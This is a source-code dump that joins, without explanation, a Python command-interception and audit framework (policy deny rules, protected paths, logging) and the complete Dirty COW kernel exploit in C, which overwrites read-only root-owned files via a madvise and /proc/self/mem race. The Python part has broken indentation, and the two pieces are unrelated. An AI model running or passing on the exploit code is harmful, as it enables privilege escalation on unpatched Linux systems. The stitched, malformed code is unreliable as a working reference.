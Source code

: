     # command_interceptor.py
    #!/usr/bin/env python3
    import os
    import subprocess
    from logger import AuditLogger
    from file_protector import FileProtector
    from policy_engine import PolicyEngine

    class CommandInterceptor:

    def __init__(self, policy_engine=None, logger=None, file_protector=None):
        self.policy_engine = policy_engine or PolicyEngine()
        self.logger = logger or AuditLogger()
        self.file_protector = file_protector or FileProtector()
        
    def intercept(self, command, args):
        user = os.getenv('USER') or 'unknown'
        # Verificação de políticas
        if not self.policy_engine.is_command_allowed(user, command, args):
            self.logger.log(user, command, args, 'DENIED')
            print(f'Comando {command} negado pela política.')
            return 1
        # Verificação de ficheiros protegidos
        for arg in args:
            if self.file_protector.is_protected(arg):
                self.logger.log(user, command, args, 'DENIED')
                print(f'O acesso ao ficheiro {arg} está protegido.')
                return 1
        # Execução do comando
        try:
            resultado = subprocess.run(
                [command] + args,
                check=True,
                capture_output=True,
                text=True
            )
            self.logger.log(user, command, args, 'SUCCESS')
            print(resultado.stdout)
            return 0
        except subprocess.CalledProcessError as e:
            self.logger.log(user, command, args, f'ERROR_{e.returncode}')
            print(e.stderr)

            # logger.py
    #!/usr/bin/env python3
    import logging
    
    class AuditLogger:

    def __init__(self, logfile='/var/log/tef_audit.log'):
        logging.basicConfig(
            filename=logfile,
            level=logging.INFO,
            format='%(asctime)s %(message)s'
        )
        self.logger = logging.getLogger('TEF')
    def log(self, user, command, args, result):

        self.logger.info(f'User={user} CMD={command} ARGS={args} RESULT={result}')



        # file_protector.py
    #!/usr/bin/env python3
    import os

    class FileProtector:

    def __init__(self, protected_paths=None):
        # Lista de caminhos absolutos protegidos
        self.protected_paths = protected_paths or ['/opt/confidencial']
    def is_protected(self, path):
        abs_path = os.path.abspath(path)
        return abs_path in self.protected_paths

        # policy_engine.py
    #!/usr/bin/env python3

    class PolicyEngine:

    def __init__(self, config_file='/etc/tef_policy.conf'):
        self.policies = self.load_policies(config_file)
    def load_policies(self, config_file):
        policies = {}
        try:
            with open(config_file) as f:
                for line in f:
                    line = line.strip()
                    if line and not line.startswith('#'):
                        cmd, rule = line.split('=')
                        policies[cmd.strip()] = rule.strip()
        except FileNotFoundError:
            pass
        return policies

    def is_command_allowed(self, user, command, args):
        # Se existir uma entrada "comando=deny", nega automaticamente
        if command in self.policies and self.policies[command] == 'deny':
            return False
        return True

        # tef_model.py
    #!/usr/bin/env python3
    import sys
    from logger import AuditLogger
    from file_protector import FileProtector
    from policy_engine import PolicyEngine
    from command_interceptor import CommandInterceptor
    
    class TEFModel:

    def __init__(self):
        self.logger = AuditLogger()
        self.file_protector = FileProtector()
        self.policy_engine = PolicyEngine()
        self.interceptor = CommandInterceptor(
            policy_engine=self.policy_engine,
            logger=self.logger,
            file_protector=self.file_protector
        )
    def run(self):
        if len(sys.argv) < 2:
            print('Uso: tef_model.py <comando> [args...]')
            exit(1)
        command = sys.argv[1]
        args = sys.argv[2:]
        exit(self.interceptor.intercept(command, args))

    if __name__ == '__main__':
        TEFModel().run()


       /*
    ####################### dirtyc0w.c #######################
    $ sudo -s
    # echo this is not a test > foo
    # chmod 0404 foo
    $ ls -lah foo
    -r-----r-- 1 root root 19 Oct 20 15:23 foo
    $ cat foo
    this is not a test
    $ gcc -pthread dirtyc0w.c -o dirtyc0w
    $ ./dirtyc0w foo m00000000000000000
    mmap 56123000
    madvise 0
    procselfmem 1800000000
    $ cat foo
    m00000000000000000
    ####################### dirtyc0w.c #######################
    */
    #include <stdio.h>
    #include <sys/mman.h>
    #include <fcntl.h>
    #include <pthread.h>
    #include <unistd.h>
    #include <sys/stat.h>
    #include <string.h>
    #include <stdint.h>
    
    void *map;
    int f;
    struct stat st;
    char *name;
     
    void *madviseThread(void *arg)
    {
      char *str;
      str=(char*)arg;
      int i,c=0;
      for(i=0;i<100000000;i++)
      {
    
        c+=madvise(map,100,MADV_DONTNEED);
      }
      printf("madvise %d\n\n",c);
    }
     
    void *procselfmemThread(void *arg)
    {
      char *str;
      str=(char*)arg;
    
      int f=open("/proc/self/mem",O_RDWR);
      int i,c=0;
      for(i=0;i<100000000;i++) {
    
        lseek(f,(uintptr_t) map,SEEK_SET);
        c+=write(f,str,strlen(str));
      }
      printf("procselfmem %d\n\n", c);
    }
     
     
    int main(int argc,char *argv[])
    {
    
      if (argc<3) {
      (void)fprintf(stderr, "%s\n",
          "usage: dirtyc0w target_file new_content");
      return 1; }
      pthread_t pth1,pth2;
    
      f=open(argv[1],O_RDONLY);
      fstat(f,&st);
      name=argv[1];
    
      map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
      printf("mmap %zx\n\n",(uintptr_t) map);
    
      pthread_create(&pth1,NULL,madviseThread,argv[1]);
      pthread_create(&pth2,NULL,procselfmemThread,argv[2]);
    
      pthread_join(pth1,NULL);
      pthread_join(pth2,NULL);
      return 0;
    }








